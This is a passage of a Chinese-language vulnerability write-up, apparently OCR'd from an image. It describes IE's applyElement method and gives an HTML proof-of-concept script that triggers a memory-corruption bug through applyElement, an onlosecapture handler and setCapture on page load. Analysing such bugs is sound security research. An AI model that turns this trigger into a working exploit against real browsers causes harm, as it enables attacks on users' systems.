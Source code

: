 	applyElement方法

	   语法：
	   object . applyElement ( oElement , sWhere )
	   参数：
	   oElement :　 必选项。对象(Element)。要被添加的对象。
	   sWhere :　 可选项。字符串(String)。outside | inside，outside :默认值。将
	   oElement 添加为 object 的父对象。inside :将 oElement 添加为 object
	   的子对象。但 oElement 将成为object 的原所有子对象的父对象。

## **漏洞分析**

	Poc：

	<html>

	<script>

		function trigger()

		{

			Math.tan(1,1);

			var id_0 = document.createElement("sup");

			var id_1 = document.createElement("audio");

			document.body.appendChild(id_0);

			document.body.appendChild(id_1);

			Math.tan(3,4);

			id_1.applyElement(id_0);

			id_0.onlosecapture=function(e) {

				Math.cos(0); 

				document.write("");

			}

			Math.sin(0);

			id_0['outerText']="";

			Math.cos(0);

			id_0.setCapture();

			id_1.setCapture();

			Math.cos(0);

		}

		window.onload = function() {

			trigger();

		}

